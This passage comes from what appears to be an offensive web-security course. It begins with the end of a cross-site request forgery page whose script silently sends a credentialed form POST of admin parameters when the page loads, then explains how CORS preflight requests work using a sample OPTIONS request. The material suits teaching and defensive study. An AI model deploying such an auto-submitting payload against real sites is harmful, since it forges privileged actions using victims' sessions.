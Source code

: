 ```
    mode: 'no-cors',
    credentials: 'include',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded' 
    },
    body : admin_params }
  ).then(
    console.log("Should be done...") 
  );
}

send_create();
</script>
</head>
<body></body>
</html>

```


1
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch#sending_a_request_with_credentials_included ↩︎

2
(Can I use, 2021), https://caniuse.com/same-site-cookie-attribute ↩︎

3
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/Navigator/userAgent ↩︎

###### Anatomy of the CORS Request
Before sending the actual cross-origin request, the browser makes a preflight request to the intended destination using the OPTIONS HTTP method to determine if the requesting domain may perform the requested action.

```
OPTIONS /foo HTTP/1.1
Host: megacorpone.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip,deflate
Connection: keep-alive
Origin: https://offensive-security.com
Access-Control-Request-Method: POST
Access-Control-Request-Headers: X-UserId
Listing 17 - Sample preflight request
```
All cross-origin requests, including the preflight request, include an Origin header with the value of the domain initiating the request. A preflight request may also include Access-Control-Request-Method and Access-Control-Request-Headers headers to indicate what HTTP method and request headers the browser will include on the actual request. The server will process these headers and respond with the allowed values.

Some cross-origin requests do not trigger a preflight request. These are known as simple requests,1 which include standard GET, HEAD, and POST requests. However, other request methods, requests with custom HTTP headers, or POST requests with nonstandard content-types will require a preflight request.
